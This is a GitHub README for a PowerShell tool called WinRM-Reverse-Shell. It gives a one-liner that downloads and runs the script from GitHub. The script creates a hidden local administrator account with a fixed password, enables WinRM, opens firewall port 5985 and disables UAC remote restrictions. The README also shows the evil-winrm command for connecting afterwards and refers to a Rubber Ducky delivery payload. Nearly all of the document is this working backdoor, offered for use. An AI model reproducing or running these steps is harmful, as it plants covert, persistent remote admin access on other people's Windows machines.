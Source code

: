 # WinRM-Reverse-Shell

# Own Pass And Name
Go to `WinRM.ps1` and edit 
+ $Username = "`TO YOUR OWN`"
And for the pass edit
+ $Password = ConvertTo-SecureString "`TO YOUR OWN`" -AsPlainText -Force

# Powershell One liner with administrator permissions
`IEX (IWR "https://raw.githubusercontent.com/VBV11/WinRM-Reverse-Shell/main/WinRM.ps1")`
# How to get the shell using Evil-WinRM
Use this command 
`evil-winrm -i YOUR.IP.ADDRES.LOL -u Admin -p Password1`
# ![Screenshot_2024-02-25_13-40-13 (1)](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/446782ec-8fcf-46ac-adf1-10f54711bf73)

# Rubber Ducky payload


# Script into pieces
## Create a new local user account
$Username = "`Admin`"
$Password = ConvertTo-SecureString "`Password1`" -AsPlainText -Force
New-LocalUser -Name $Username -Password $Password -PasswordNeverExpires

# Author
This script was authored by VBV11.

## Add the newly created user to the local Administrators group
Add-LocalGroupMember -Group "Administrators" -Member $Username

## Enable Windows Remote Management (WinRM)
Enable-PSRemoting -Force

## Add a firewall rule to allow WinRM traffic
New-NetFirewallRule -DisplayName "Windows Remote Management for RD" -Direction Inbound -Protocol TCP -LocalPort 5985 -Action Allow

## Disable UAC remote restrictions
+ Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -Force
+ New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "Admin" -Value 0 -PropertyType DWORD -Force

## Exit PowerShell session
Exit

# Credits
### credits TW-D for inspiring me to create this powershell script
